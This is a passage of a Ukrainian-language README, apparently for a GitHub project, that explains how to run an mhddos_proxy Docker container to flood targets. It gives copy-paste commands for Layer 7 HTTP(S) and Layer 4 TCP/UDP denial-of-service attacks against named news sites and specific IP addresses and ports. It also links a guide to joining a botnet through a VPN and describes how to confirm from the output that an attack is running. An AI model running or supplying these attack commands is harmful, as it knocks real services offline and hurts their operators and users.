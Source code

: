 ```sh
  --rpc 2000             How many requests to send on a single proxy connection (default is 2000)
  --http-methods GET     List of HTTP(s) attack methods to use.
                         (default is GET, POST, STRESS, BOT, PPS)
                         Refer to MHDDoS docs for available options
                         (https://github.com/MHProDev/MHDDoS)
```

<br/>
  
## Варіанти атак

* Атака на Layer 7 (HTTP(S) по URL)
  ```sh
  sudo docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest https://ria.ru https://tass.ru -t 1000 --debug
  ```
* Атака на Layer 7 (HTTP по IP + PORT)
  ```sh
  sudo docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest 5.188.56.124:80 5.188.56.124:3606 -t 1000 --debug
  ```
* Атака на Layer 4 (по TCP адресам)
  ```sh
  sudo docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest tcp://194.54.14.131:4477 tcp://194.54.14.131:22 -t 1000 --debug
  ```
* Атака на Layer 4 (по UDP адресам)

  **Необхідно використовувати VPN!!!** Налаштувати його можна за допомогою [ось цього гайду](https://telegra.ph/Prisoedinyaemsya-k-botnetu-dlya-DDoS-ataki-s-ispolzovaniem-dockerprotonVPN-02-27), гортайте нижче.
  ```sh
  sudo docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest udp://217.175.155.100:53 -t 1000 --debug
  ```
* Комбінована атака
  ```sh
  sudo docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest https://ria.ru tcp://194.54.14.131:22 -t 1000 --debug
  ```
  
<br/>

## Пояснення атак

Після запуску атак повинен з'явитися наступний текст. Якщо з'явився, значить усе добре, скрипт запустився й працює.

<p align="center">
  <img src="/images/MHDDoS_proxy/1.png?raw=true" />
</p>

Після з'єднання й налаштування проксі, має з'явитися інформація про атаки. Якщо вивід приблизно такий, як на скріні (серед атак із 0 нагрузкою на таргет часто трапляються ті, які роблять нагрузку), значить усе добре, скрипт працює, атака йде. Періодично моніторьте, чи вивід залишається таким. Якщо ні - то можете перезапустити атаку.
